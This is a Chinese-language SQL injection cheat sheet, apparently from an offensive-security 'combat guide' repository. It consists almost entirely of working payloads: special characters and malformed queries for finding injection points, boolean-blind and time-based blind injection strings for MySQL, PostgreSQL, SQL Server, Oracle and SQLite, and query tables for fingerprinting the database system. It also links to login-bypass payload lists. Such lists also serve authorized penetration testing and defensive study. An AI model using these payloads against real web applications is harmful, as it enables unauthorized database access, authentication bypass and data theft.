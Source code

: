 # SQL注入漏洞

## 1.注入点检测

（1）报错信息

特殊字符：

```bash
'
%27
"
%22
#
%23
;
%3B
)
||
*
--
/* */
&apos;
```

SQL语句：

```bash
'SELECT  //不成对的引号
1' OR '1' = '2  //逻辑错误
'1' = 1 --  //类型错误
'1' AND ASCII('a') = '97 --  //函数错误
'1' OR ('x'='x'  //操作符错误
```
(2)Boolean盲注

盲注检测：

|描述|查询语句|
|----|----|
|逻辑运算|page.php?id=1 or 1=1 -- 返回为true<br>page.php?id=1' or 1=1 -- 返回为true<br>page.php?id=1" or 1=1 -- 返回为true<br>page.php?id=1 and 1=2 -- 返回为false|
|数学运算|page.php?id=1/1 -- 返回为true<br>page.php?id=1/0 -- 返回为false<br>page.php?id=1/abs(1) -- 返回为true<br>page.php?id=1/abf(1) -- 返回为false|

逻辑运算字典：

[sql_logic](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/sqli-logic.txt)

(3)时间盲注

MySQL：

```sql
1' + sleep(5)
1' and sleep(5)
1' && sleep(5)
1' | sleep(5)
```

PostgreSQL:

```sql
1' and pg_sleep(5)
1' || pg_sleep(5)
```

SQL Server:

```sql
1' WAITFOR DELAY '0:0:5'
1' AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (SELECT SLEEP(5)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=CHAR(109,97,115,116,101,114)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
```

Oracle:

```sql
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',5)
1' AND DBMS_LOCK.SLEEP(5)
```

SQLite:

```sql
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

## 2.DBMS识别

MySQL识别：
|描述|查询语句|
|----|----|
|睡眠|id=1'-SLEEP(1)=0 LIMIT 1 --|
|BENCHMARK|id=1'-BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds'))=0 LIMIT 1 --|
|字符串拼接|id=' 'mysql' –<br>'my' 'sql'<br>CONCAT('my','sql')|
|函数|connection_id() --<br>row_count() --<br>POW(1,1) --|
|错误信息|id='|
|默认变量|@@version_compile_os<br>@@version<br>@@basedir<br>@@datadir|
|比较函数|conv('a',16,2)=conv('a',16,2)<br>connection_id()=connection_id()<br>crc32('MySQL')=crc32('MySQL')|

Oracle识别：
|描述|查询语句|
|----|----|
|字符串拼接|id='\|\|'oracle' --|
|函数|BITAND(1,1) –|
|默认表|id='UNION SELECT 1 FROM v$version --|
|错误信息|id='|
|睡眠|dbms_pipe.receive_message(('a'),10)|
|默认变量|SELECT banner FROM v$version<br>SELECT version FROM v$instance|
|比较函数|ROWNUM=ROWNUM<br>RAWTOHEX('AB')=RAWTOHEX('AB')|

SQL Server识别：
|描述|查询语句|
|----|----|
|睡眠|id=';WAITFOR DELAY '00:00:10'; --|
|字符串拼接|id='mssql'+'mssql' --|
|函数|@@rowcount --<br>SQUARE(1) --<br>@@pack_received --|
|默认变量|id=sql'; SELECT @@SERVERNAME --|
|错误信息|id='<br>id=@@SERVERNAME<br>id=0/@@SERVERNAME|
|比较函数|BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)<br>@@CONNECTIONS>0<br>@@CONNECTIONS=@@CONNECTIONS|

PostgreSQL识别：
|描述|查询语句|
|----|----|
|睡眠|SELECT pg_sleep(10)|
|字符串拼接|'foo'\|\|'bar'|
|默认变量|SELECT version()|
|错误信息|1 = (select case when (条件语句) then 1/(select 0) else null end)|
|比较函数|pg_client_encoding()=pg_client_encoding()<br>get_current_ts_config()=get_current_ts_config()<br>quote_literal(42.5)=quote_literal(42.5)<br>current_database()=current_database()|

这里放置一个来自[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)的表：
```sql
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

## 3.注入类型

(1) MySQL

[MySQL注入类型](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/SQL/MySQL%E6%B3%A8%E5%85%A5%E7%B1%BB%E5%9E%8B)

(2) Oracle

[Oracle注入类型](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/SQL/Oracle%E6%B3%A8%E5%85%A5%E7%B1%BB%E5%9E%8B)

(3) SQL Server

[SQL Server注入类型](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/SQL/SQL%20Server%E6%B3%A8%E5%85%A5%E7%B1%BB%E5%9E%8B)

(4)PostgreSQL

[PostgreSQL注入类型](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/SQL/PostgreSQL%E6%B3%A8%E5%85%A5%E7%B1%BB%E5%9E%8B)

(5)BigQuery

[BigQuery注入类型](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/SQL/BigQuery%E6%B3%A8%E5%85%A5%E7%B1%BB%E5%9E%8B)

(6)Cassandra

[Cassandra注入](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/SQL/Cassandra)

## 4.身份验证绕过

Payload:

[login_bypass](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/login_bypass.txt)<br>
[login_bypass2](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/payloads/login_bypass2.txt)<br>
